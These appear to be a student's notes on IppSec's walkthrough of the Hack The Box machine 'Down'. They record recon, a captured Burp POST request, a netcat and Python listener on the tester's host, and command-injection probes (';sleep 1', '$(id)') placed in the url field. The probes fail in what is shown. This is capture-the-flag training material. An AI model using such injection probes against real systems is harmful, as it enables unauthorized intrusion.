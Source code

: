 # Down
Website is a 'is it down?' website that you can enter a URL into.

## IppSec Notes:
- https://www.youtube.com/watch?v=mi_t2Nz8dPk
- Page Source tells you it's `php` website
- Making it 404 tells you it's `Apache/2.4.52 (Ubuntu) Server at 10.129.234.87 Port 80`
- Might want to start Gobuster up to enum other .php files on the server
- Set up nc listener and gave website local URL
- User-Agent is `curl/7.81.0`
- Since it's curl, it's likely the page is making a system command to run things - try using Burp for Command Injection
- Proxy request to local IP and sent to repeater
```POST /index.php HTTP/1.1
Host: 10.129.234.87
Content-Length: 34
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.129.234.87
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.234.87/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

url=http%3A%2F%2F10.10.14.4%3A4444
```
- From repeater he learns the response is 1,064 bytes
- Adds `;sleep 1` to `url=` but URL encodes it to `%3bsleep+1`: Highlight text --> Convert Selection --> URL encode
- Server does not respond, semi-colon seems to be breaking things
- Makes server:
```
┌──(root㉿kali)-[/home/jacob/Desktop/down]
└─# mkdir www

┌──(root㉿kali)-[/home/jacob/Desktop/down]
└─# cd www                                                                                                                                                   

┌──(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
- I changed my Burp capture from 4444 --> 8000. The command for custom port is:
```
┌──(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# python3 -m http.server 4444 
```
- Tested CI with `url=http%3A%2F%2F10.10.14.4%3A4444/$(id)` but it appears as:
```
┌──(root㉿kali)-[/home/jacob/Desktop/down/www]
└─# python3 -m http.server 4444                                                                                                                              
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.129.234.87 - - [05/Jul/2025 18:50:24] code 404, message File not found
10.129.234.87 - - [05/Jul/2025 18:50:24] "GET /$(id) HTTP/1.1" 404 -
```
- The fact we can see the URI as is, means it's not CI.